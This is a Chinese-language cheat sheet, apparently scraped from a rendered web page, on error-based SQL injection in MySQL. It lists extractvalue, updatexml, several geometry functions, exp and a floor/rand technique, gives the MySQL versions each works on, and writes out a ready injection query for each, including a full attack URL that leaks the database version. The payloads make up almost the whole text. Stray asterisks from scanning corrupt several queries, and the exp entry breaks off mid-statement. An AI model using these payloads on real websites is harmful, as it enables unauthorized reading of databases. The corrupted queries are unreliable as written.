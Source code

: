 1. extractvalue()
   常用报错注入方法之一
   mysql5.1.5开始可用
   数据库语句：select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

1. updatexml()
   常用报错注入方法之一
   mysql5.1.5开始可用
   数据库语句：select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

1. geometrycollection()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and geometrycollection((*select * *from*(select * from(select user())a)b));

1. multipoint()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and multipoint((*select * *from*(select * from(select user())a)b));

1. polygon()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and polygon((*select * *from*(select * from(select user())a)b));

1. multipolygon()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and multipolygon((*select * *from*(select * from(select user())a)b));

1. linestring()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and linestring((*select * *from*(select * from(select user())a)b));

1. multilinestring()
   几何函数-版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from test where id=1 and multilinestring((*select * *from*(select * from(select user())a)b));

1. exp()
   版本-5.5.47可以用来注入,5.5.53不行
   数据库语句：select * *from*

## 0x01 MySQL 报错注入之(floor报错注入)

### 0x01 爆数据库版本

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句: select * *from test where id =1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
